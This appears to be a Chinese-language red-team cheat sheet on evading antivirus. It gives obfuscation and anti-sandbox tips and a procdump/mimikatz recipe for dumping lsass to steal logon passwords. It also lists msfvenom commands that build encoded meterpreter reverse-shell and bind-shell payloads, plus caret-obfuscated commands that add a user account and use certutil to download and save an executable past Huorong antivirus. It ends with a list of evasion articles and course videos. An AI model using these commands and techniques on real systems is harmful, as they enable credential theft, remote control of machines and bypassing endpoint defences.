 # Bypass
普通 exe 免杀使用 py 或 go 等加密后反射加载，基本上就可以过大部分杀软了。
启动后 cmd /c timeout 延迟等待N秒用来反沙箱

procdump+mimikatz,  mimikatz很多时候都会被杀掉，可以通过procdump+mimikatz的方式 进行绕过。 或 任务管理器—进程—显示所有用户进程—找到lsass(Local Security Authority Process)—右键“创建转储文件”
- mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit">pass.txt

msf

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.161 LPORT=1234 -e x64/shikata_ga_nai -i 5 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f c -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f csharp -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -f c > payload.c
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.127.134 LPORT=1234 -f c > payload.c
```

cobalt strike
生成 payload C 版本。用掩日生成一下。

## Bypass/火绒

```sh
n""e""t u""s""er  guest1 guest1
^c""^e^r^t""u^ti^l -u^r"l""""cache -gmt -split -f ht""tp://1"2"7.0.0.1:13""38/d/pzxsnoqd pzxsn""oqd.^e^""x""^e
^c""^e^r^t""u^ti^l  -u^rl""""cache -sp""lit -""f ht""tp://127.0.0.1 test
```

# Article

- rw\_bypass\_免杀\_BypassAV.html
- [Cobalt Strike已死？如何真正意义上的入门免杀](https://mp.weixin.qq.com/s/FnHD0f1lueqOOhTVimoSLw)
- [不会写代码，但你可以免杀三件套](https://mp.weixin.qq.com/s/NqH7kKS7XQmxaVUDacocZA)
- [有手就行的白加黑实战免杀 - FreeBuf 网络安全行业门户](https://www.freebuf.com/articles/system/333690.htm)
- [一文读懂 DLL 劫持与白+黑样本原理](https://mp.weixin.qq.com/s/UZjLNPna7R2ZLs3r9kJEQg)
- [浅谈dll劫持-白加黑免杀指南](https://mp.weixin.qq.com/s/V2p58KMsyQSY5tcwPuVPmg)
- [写外挂时偶然想到的免杀思路](https://mp.weixin.qq.com/s/0c6D2aw9xk-NPKYuCkvoIg)
- [Rust免杀 - Shellcode加载与混淆](https://mp.weixin.qq.com/s/5SP0FerVIsEk3P-eH3PmKw)
- [常用工具免杀-助你护网](https://mp.weixin.qq.com/s/HBLpmCAoPRzvWq5akmLBTw)
- [『杂项』利用 Windows 白名单免杀](https://mp.weixin.qq.com/s/oZLhkFDKOxFUqePqT6HoRA)
- [从动态免杀最新版火绒探究何为免杀](https://www.bilibili.com/video/BV1on4y1R7nW/)
- [重生之我在干免杀-堆栈欺骗](https://mp.weixin.qq.com/s/z6kC60trpEpKQ_OdC0lksA)
7-项目七 渗透有防护的内网域_18 msf 正向木马免杀过360 全家桶【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇01mimikatz免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇02PrintSpoofer免杀过360杀毒360安全卫士【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇03MSF用加载器免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇04Python3Cobaltstrikeshellcode免杀过360卫士和360杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇05Golang加载器Cobaltstrikeshellcode免杀国内主流杀软【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇06GolangCobaltstrikeshellcode免杀国内主流杀软【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇07c#xor加载器免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇08Cobaltstrike免杀过360和WindowsDefender【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇09msf加密壳免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
Cobalt Strike 第十五章 使用多种方法免杀 payload【瑞客论坛 www.ruike1.com】.docx
暗月实战项目八19metasploit免杀杀毒软件并且开启远程终端登录目标服务器【瑞客论坛 www.ruike1.com】.mp4
暗月实战项目十一05frp反向代理msf到公网msf免杀过火绒上线【瑞客论坛 www.ruike1.com】.mp4